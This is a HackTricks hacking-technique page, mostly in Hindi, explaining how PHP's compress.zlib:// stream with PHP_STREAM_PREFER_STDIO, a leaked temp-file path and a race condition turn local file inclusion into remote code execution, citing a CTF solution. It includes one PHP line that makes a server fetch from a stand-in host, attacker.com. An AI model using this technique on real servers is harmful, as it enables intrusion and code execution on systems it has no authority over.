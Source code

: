 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `compress.zlib://` और `PHP_STREAM_PREFER_STDIO`

`compress.zlib://` प्रोटोकॉल का उपयोग करके खोला गया एक फ़ाइल, `PHP_STREAM_PREFER_STDIO` ध्वज के साथ, बाद में कनेक्शन पर आने वाले डेटा को उसी फ़ाइल में लिखना जारी रख सकता है।

इसका मतलब है कि एक कॉल जैसे:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
एक अनुरोध भेजा जाएगा जो http://attacker.com/file के लिए होगा, फिर सर्वर इस अनुरोध का उत्तर एक मान्य HTTP प्रतिक्रिया के साथ दे सकता है, कनेक्शन को खुला रख सकता है, और कुछ समय बाद अतिरिक्त डेटा भेज सकता है जो फ़ाइल में भी लिखा जाएगा।

आप इस जानकारी को php-src कोड के इस भाग में main/streams/cast.c में देख सकते हैं:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Race Condition to RCE

[**यह CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) पिछले ट्रिक का उपयोग करके हल किया गया था।

हमलावर **शिकार सर्वर को हमलावर के सर्वर से एक फ़ाइल पढ़ने के लिए एक कनेक्शन खोलने** के लिए मजबूर करेगा **`compress.zlib`** प्रोटोकॉल का उपयोग करते हुए।

**जबकि** यह **कनेक्शन** मौजूद है, हमलावर **अस्थायी फ़ाइल** के पथ को **बाहर निकाल** देगा (यह सर्वर द्वारा लीक किया गया है)।

**जबकि** **कनेक्शन** अभी भी खुला है, हमलावर **LFI का शोषण करेगा जो अस्थायी फ़ाइल** को लोड करता है जिसे वह नियंत्रित करता है।

हालांकि, वेब सर्वर में एक जांच है जो **`<?`** वाले फ़ाइलों को लोड करने से **रोकती** है। इसलिए, हमलावर **रेस कंडीशन** का दुरुपयोग करेगा। उस कनेक्शन में जो अभी भी खुला है, **हमलावर** **PHP पेलोड भेजेगा AFTER** **वेब सर्वर** ने **जांच की** कि फ़ाइल में निषिद्ध वर्ण हैं लेकिन **इससे पहले कि यह इसकी सामग्री लोड करे**।

अधिक जानकारी के लिए रेस कंडीशन और CTF का विवरण देखें [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
